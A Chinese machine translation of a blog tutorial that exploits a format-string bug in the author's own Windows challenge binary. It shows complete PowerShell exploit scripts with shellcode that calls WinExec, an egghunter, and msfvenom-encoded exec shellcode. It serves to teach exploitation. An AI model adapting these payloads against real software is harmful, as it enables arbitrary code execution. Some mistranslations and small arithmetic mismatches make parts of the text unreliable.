# 利用 Windows 中的格式字符串

> 原文：<https://infosecwriteups.com/exploiting-format-strings-in-windows-5f96c9b29dea?source=collection_archive---------0----------------------->

我想做一个小的[挑战](https://github.com/OsandaMalith/Exploits/blob/master/Challenges/Challenge%20-%201.7z?raw=true)利用 Windows 中的格式字符串。这就是它的样子，它要求打开一个文件名。起初，这可能有点令人困惑。读取文件时没有易受攻击的函数。你可以看到我们对程序的第一个论点在程序中得到了回应。



让我们在调试器中研究一下这个问题。如你所见，如果 *argc == 2* 应用程序继续流程，并且 *argv[1]* 被传递到高亮显示的函数中。



在该函数中， *memset* 用于用 0 填充内存，而 *strncpy* 用于将用户输入复制到已填充的缓冲空间中。但是如果你注意到 *eax* 被 *printf* 函数直接调用，而没有指定任何格式字符串参数。函数 *printf* 会直接调用我们的缓冲区。这很有趣



让我们尝试使用%X 格式字符串读取堆栈，该字符串用于以十六进制格式显示文本。如你所见 *printf* 函数从高内存到低内存读取堆栈。

我会给出 80 个 A 字符和一堆%x 格式的字符串，看输出。

你可以看到 41 表示十六进制 A，2558 表示%X。



我们可以使用%n 来显示到目前为止在一个字符串中写入的字符数，直到偏移量%n 被放置。我们必须传递变量的地址。基本上，这将写入一个内存位置。举个例子，

```
int main() {
int number;
printf("Hello %nWorld", &number);
printf("%d", number);
}
```

这将打印出值 6。

所以，让我们试着在输入中放一个%n，看看会发生什么。


程序在试图写入地址时崩溃。让我们看看调试器内部发生了什么。这就是事情变得一团糟的地方。ECX 的值被移入指向 EAX 的地址。


让我们检查一下收银机。EAX 包含 78257825，即“x%x%”，ECX 包含 f8。



让我们检查一下堆栈。如果我们往下看堆栈，我们可以在堆栈上看到我们注入的字符。这可能会给你一个放置外壳代码而不是“A”字符的好主意



在函数结尾，一旦命中 RET，EIP 将指向堆栈上前一个函数的返回地址。



如果我们检查调用堆栈，我们可以看到指向 0019f72c 的第一个帧指针



返回地址将是 0019f730，它指向前一个函数的 00401188。如果您注意到 0019f730 地址前面有一个空字节。但是，如果我们在有效载荷的末尾以小端格式写下这个地址，这就不是问题了



计划是这样的。在这种情况下，我们可以控制 ECX 和 EAX。我们可以在 ECX 内部写外壳代码的地址，在 EAX 寄存器内部写返回地址的指针。一旦程序命中" *mov dword ptr [eax]，ecx*" shellcode 的地址将被写入堆栈上的返回地址。当程序到达函数的结尾并点击结束键时，RET EIP 将指向我们新写的地址，这个地址指向我们的外壳代码

好吧，这个计划听起来很酷，让我们试着实现它，并进行试验。
首先，我们应该把 EAX 指向我们的回信地址。我的第一个有效载荷是这样的。与上一张图一样，EAX 包含 78257825，即“x%x%”。

```
$Buffer = 'A' * 80
$fmt = '%x' * 21 + '%n'
$ret = 'B' * 4
$final = $Buffer + $fmt + $ret
Start-Process ./fmt.exe -ArgumentList $final
```

我们必须继续试验，直到 EAX 指出我们的 4 B 字符。我不断增加“%x”字符，终于让 EAX 指向“BBBB”。所以，我尝试的下一个有效载荷是这个。

```
$Buffer = 'A' * 80
$fmt = '%x' * 41 + '%n'
$ret = 'B' * 4
$final = $Buffer + $fmt + $ret
Start-Process ./fmt.exe -ArgumentList $final
```



让我们试着控制 ECX 注册表，让它指向我们的外壳代码地址。与上一张图片一样，我们的外壳代码位于 0019f758。让我们把这个数除以 4。

```
0x0019f758/4 = 425430
```

让我们把这个值赋予格式字符串%x，这将改变 ECX 的值。同时，我将把%x 字符从 41 个增加到 51 个，让 EAX 指向我们的 Bs。这个%x 一次读取 2 个字符。我们必须不断试验，直到达到目标

```
$Buffer = 'A' * 80
$fmt = '%x' * 51 + '%.425430x' * 4 +'%n'
$ret = 'B' * 4
$final = $Buffer + $fmt + $ret
Start-Process ./fmt.exe -ArgumentList $final
```

现在 ECX 指向 0019f940，但我们需要 ECX 指向 0019f758。



让我们找出不同之处，再试一次。

```
0x0019f940– 0x0019f758 = 488
```

通过在最后一个格式字符串中添加 408，我们应该接近我们的目标了。让我们试一试。

```
425430 + 488 = 425918$Buffer = ‘A’ * 80
$fmt = ‘%x’ * 51 + ‘%.425430x’ * 3 + ‘%.425918x’ +’%n’
$ret = ‘B’ * 4
$final = $Buffer + $fmt + $ret
Start-Process ./fmt.exe -ArgumentList $final
```

现在 ECX 指向 19fb28。让我们再次找到不同之处。



```
0x19fb28 – 0x19f758 = 976
```

通过减去最后一个格式字符串的差值，我们应该让 ECX 指向我们需要的确切地址。

```
425918 -  949 = 424942$Buffer = 'A' * 80
$fmt = '%x' * 51 + '%.425430x' * 3 + '%.424942x' +'%n'
$ret = 'B' * 4
$final = $Buffer + $fmt + $ret
Start-Process ./fmt.exe -ArgumentList $final
```

现在，ECX 指向 19f758，这是我们将要放置外壳代码的位置。


由于我们有 80 个字符，我将首先尝试编写自己的 will 代码来弹出一个 calc。因为如果我再增加 A 字符的数量，计算偏移量会很麻烦。我将使用 WinExec API 来调用 calc。让我们找到它的地址。



这是一个简单的 asm 代码，我编写它来调用 WinExec API。

```
format PE GUI 4.0
entry ShellCode
include 'win32ax.inc'
; Author: [@OsandaMalith](http://twitter.com/OsandaMalith)
section '.code' executable readable writeable
ShellCode:
push ebp
mov ebp, esp
xor edi, edi
push edi
mov byte  [ebp-04h], 'c'
mov byte  [ebp-03h], 'a'
mov byte  [ebp-02h], 'l'
mov byte  [ebp-01h], 'c'
mov dword [esp+4], edi
mov byte  [ebp-08h], 01h
lea eax, [ebp-04h]
push eax
mov eax, 75263640h
call eax
```

这是我们最后的利用。

```
<#
# Author: [@OsandaMalith](http://twitter.com/OsandaMalith)
# Website: [https://osandamalith.com](https://osandamalith.com)
# Format String Exploitation
#>
$shellcode = [Byte[]] @(
0x55,                         # push ebp
0x89, 0xE5,                   # mov ebp, esp
0x31, 0xFF,                   # xor edi, edi
0x57,                         # push edi
0xC6, 0x45, 0xFC, 0x63,       # mov byte  [ebp-04h], 'c'
0xC6, 0x45, 0xFD, 0x61,       # mov byte  [ebp-03h], 'a'
0xC6, 0x45, 0xFE, 0x6C,       # mov byte  [ebp-02h], 'l'
0xC6, 0x45, 0xFF, 0x63,       # mov byte  [ebp-01h], 'c'
0x89, 0x7C, 0x24, 0x04,       # mov dword [esp+4], edi
0xC6, 0x45, 0xF8, 0x01,       # mov byte  [ebp-08h], 01h
0x8D, 0x45, 0xFC,             # lea eax,  [ebp-04h]
0x50,                         # push eax
0xB8, 0x40, 0x36, 0x26, 0x75, # mov eax, 75263640h
0xFF, 0xD0                    # call eax
)
$shellcode += [Byte[]] (0x41) * (80 - $shellcode.Length)
$fmt = ([system.Text.Encoding]::ASCII).GetBytes('%x' * 51)       +
([system.Text.Encoding]::ASCII).GetBytes('%.425430x' * 3) +
([system.Text.Encoding]::ASCII).GetBytes('%.424942x')     +
([system.Text.Encoding]::ASCII).GetBytes('%n')
$ret = [System.BitConverter]::GetBytes(0x0019f730)
$final = $shellcode + $fmt + $ret
$payload = ''
ForEach ($i in $final) {
$payload += ([system.Text.Encoding]::Default).GetChars($i)
}
Start-Process ./fmt.exe -ArgumentList $payload
```

让我们最后看一下调试器内部。



ECX 0019f758 的值将被移到指向 EAX 0019 f730 的指针中，该指针是一个包含我们的返回地址的堆栈指针。如果我们看到 ECX 寄存器内部，它指向我们的外壳代码。



函数一返回，EIP 就会指向我们的外壳代码



一旦我们运行这个漏洞 w00t！我们会得到我们的计算器



不如我们用一个鸡蛋猎人来找到我们的外壳代码？

有人可能会说我们可以使用一个长跳转，或者我们可以直接将外壳代码放在开头。但是，我还是想到用这个来娱乐和好奇。



首先，我检查了坏字符，发现" *\x00\x09\x20* "是这个程序中的坏字符。这是鸡蛋猎人的漏洞。请注意，在不同的 Windows 平台中，偏移量可能会有所不同。

```
<#
# Author: [@OsandaMalith](http://twitter.com/OsandaMalith)
# Website: [https://osandamalith.com](https://osandamalith.com)
# Egg hunter for the format string bug
#>
[Byte[]] $egg = 0x66,0x81,0xca,0xff,0x0f,0x42,0x52,0x6a,0x02,0x58,0xcd,0x2e,0x3c,0x05,0x5a,0x74,0xef,0xb8,0x54,0x30,0x30,0x57,0x8b,0xfa,0xaf,0x75,0xea,0xaf,0x75,0xe7,0xff,0xe7
$shellcode = ([system.Text.Encoding]::ASCII).GetBytes('W00TW00T')
#msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f powershell -e x86/alpha_mixed
[Byte[]] $shellcode += 0x89,0xe0,0xdd,0xc7,0xd9,0x70,0xf4,0x5a,0x4a,0x4a,0x4a,0x4a,0x4a,0x4a,0x4a,0x4a,0x4a,0x4a,0x4a,0x43,0x43,0x43,0x43,0x43,0x43,0x37,0x52,0x59,0x6a,0x41,0x58,0x50,0x30,0x41,0x30,0x41,0x6b,0x41,0x41,0x51,0x32,0x41,0x42,0x32,0x42,0x42,0x30,0x42,0x42,0x41,0x42,0x58,0x50,0x38,0x41,0x42,0x75,0x4a,0x49,0x49,0x6c,0x78,0x68,0x4c,0x42,0x55,0x50,0x73,0x30,0x33,0x30,0x61,0x70,0x6c,0x49,0x6b,0x55,0x56,0x51,0x4b,0x70,0x73,0x54,0x6c,0x4b,0x56,0x30,0x56,0x50,0x6c,0x4b,0x32,0x72,0x76,0x6c,0x4e,0x6b,0x71,0x42,0x57,0x64,0x4e,0x6b,0x73,0x42,0x34,0x68,0x44,0x4f,0x48,0x37,0x53,0x7a,0x74,0x66,0x34,0x71,0x39,0x6f,0x4c,0x6c,0x45,0x6c,0x43,0x51,0x73,0x4c,0x76,0x62,0x44,0x6c,0x65,0x70,0x6b,0x71,0x38,0x4f,0x64,0x4d,0x37,0x71,0x7a,0x67,0x59,0x72,0x68,0x72,0x43,0x62,0x42,0x77,0x4e,0x6b,0x50,0x52,0x32,0x30,0x4e,0x6b,0x72,0x6a,0x77,0x4c,0x6e,0x6b,0x52,0x6c,0x57,0x61,0x73,0x48,0x78,0x63,0x72,0x68,0x33,0x31,0x38,0x51,0x30,0x51,0x6e,0x6b,0x70,0x59,0x75,0x70,0x55,0x51,0x4e,0x33,0x6c,0x4b,0x73,0x79,0x46,0x78,0x7a,0x43,0x45,0x6a,0x62,0x69,0x4c,0x4b,0x65,0x64,0x6c,0x4b,0x75,0x51,0x38,0x56,0x50,0x31,0x59,0x6f,0x4c,0x6c,0x59,0x51,0x6a,0x6f,0x76,0x6d,0x63,0x31,0x48,0x47,0x44,0x78,0x4d,0x30,0x42,0x55,0x4c,0x36,0x65,0x53,0x31,0x6d,0x58,0x78,0x55,0x6b,0x31,0x6d,0x71,0x34,0x31,0x65,0x6a,0x44,0x61,0x48,0x6e,0x6b,0x32,0x78,0x51,0x34,0x55,0x51,0x6a,0x73,0x71,0x76,0x6c,0x4b,0x44,0x4c,0x70,0x4b,0x4e,0x6b,0x53,0x68,0x57,0x6c,0x73,0x31,0x49,0x43,0x4e,0x6b,0x74,0x44,0x6e,0x6b,0x76,0x61,0x78,0x50,0x4c,0x49,0x30,0x44,0x76,0x44,0x66,0x44,0x73,0x6b,0x43,0x6b,0x61,0x71,0x53,0x69,0x32,0x7a,0x72,0x71,0x79,0x6f,0x6d,0x30,0x43,0x6f,0x63,0x6f,0x72,0x7a,0x6e,0x6b,0x74,0x52,0x7a,0x4b,0x4e,0x6d,0x31,0x4d,0x43,0x5a,0x55,0x51,0x6e,0x6d,0x4f,0x75,0x38,0x32,0x75,0x50,0x55,0x50,0x65,0x50,0x30,0x50,0x71,0x78,0x65,0x61,0x6c,0x4b,0x52,0x4f,0x6d,0x57,0x79,0x6f,0x4a,0x75,0x4f,0x4b,0x4a,0x50,0x4d,0x65,0x49,0x32,0x73,0x66,0x71,0x78,0x6f,0x56,0x6d,0x45,0x6f,0x4d,0x6f,0x6d,0x39,0x6f,0x4b,0x65,0x75,0x6c,0x45,0x56,0x51,0x6c,0x64,0x4a,0x4d,0x50,0x4b,0x4b,0x79,0x70,0x31,0x65,0x37,0x75,0x4d,0x6b,0x71,0x57,0x76,0x73,0x62,0x52,0x52,0x4f,0x71,0x7a,0x63,0x30,0x62,0x73,0x49,0x6f,0x69,0x45,0x53,0x53,0x51,0x71,0x50,0x6c,0x33,0x53,0x36,0x4e,0x53,0x55,0x70,0x78,0x32,0x45,0x45,0x50,0x41,0x41
$egg += [Byte[]] (0x41) * (80 - $egg.Length)
$fmt = ([system.Text.Encoding]::ASCII).GetBytes('%x' * 305)      +
([system.Text.Encoding]::ASCII).GetBytes('%.425430x' * 3) +
([system.Text.Encoding]::ASCII).GetBytes('%.424942x')     +
([system.Text.Encoding]::ASCII).GetBytes('%n')
$ret = [System.BitConverter]::GetBytes(0x0019f730)
$final = $egg + $fmt + $shellcode + $ret
$payload = ''
ForEach ($i in $final) {
$payload += ([system.Text.Encoding]::Default).GetChars($i)
}
Start-Process ./fmt.exe -ArgumentList $payload
```

这种利用方法依赖于编译器。我在 Embarcadero C++ (Borland C++)和 Visual C++ 2000 编译器上试验过这个。在其他编译器中， *printf* 函数与这些不一样。您可以对其他编译器进行更多的研究